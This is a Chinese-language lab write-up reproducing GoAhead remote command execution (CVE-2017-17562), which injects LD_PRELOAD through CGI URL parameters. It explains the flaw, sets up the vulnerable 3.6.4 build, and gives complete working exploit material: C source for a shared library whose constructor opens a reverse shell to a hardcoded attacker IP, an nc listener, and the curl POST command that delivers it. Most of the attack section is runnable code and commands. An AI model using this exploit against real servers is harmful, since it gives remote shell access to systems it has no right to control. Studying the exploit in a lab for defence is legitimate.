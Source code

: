 # GoAhead 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序，这个漏洞就出现在运行CGI程序的时候。

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给`http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

参考链接：

- https://www.elttam.com.au/blog/goahead/

## 漏洞影响

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。但是访问`http://your-ip:8080/cgi-bin/index`不能查看到Hello页面，**重新搭建复现环境**。

- 参考文章：https://xz.aliyun.com/t/6407

下载、编译并运行存在该漏洞的GoAhead（3.6.4）：

```
git clone https://github.com/embedthis/goahead.git
cd goahead
git checkout tags/v3.6.4 
make #编译GoAhead
cd test # 要进到test目录下运行，其它目录下没有self.key等文件会报错
gcc ./cgitest.c -o cgi-bin/cgitest #编译用来测试的CGI文件
sudo ../build/linux-x64-default/bin/goahead #运行GoAhead Web服务器
```

成功启动GoAhead Web服务器：

![image-20220223230137501](./images/202202232301657.png)

测试cgi页面能否访问。成功访问，显示版本为3.6.4，存在CVE-2017-17562漏洞，开始漏洞复现。

```
$ curl http://172.16.217.185:80/cgi-bin/cgitest
```

![image-20220223225715929](./images/202202232257119.png)

## 漏洞复现

编译用于动态加载的so，首先新建`exp.c`。

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="192.168.174.128";
uint32_t server_port=9999;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
  //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  //connect to the server
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
  //dup the socket to stdin, stdout and stderr
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
  //execute /bin/sh to get a shell
    execve("/bin/sh", 0, 0);
}
```

gcc将`exp.c`编译为`exp.so`。

```
gcc -shared -fPIC ./exp.c -o exp.so
```

在控制端监听9999端口：

```
nc -vvl 9999
```

执行POC：

```
curl -X POST --data-binary @exp.so http://192.168.174.128/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

成功获取shell并执行命令：

![image-20220223230039847](./images/202202232300924.png)
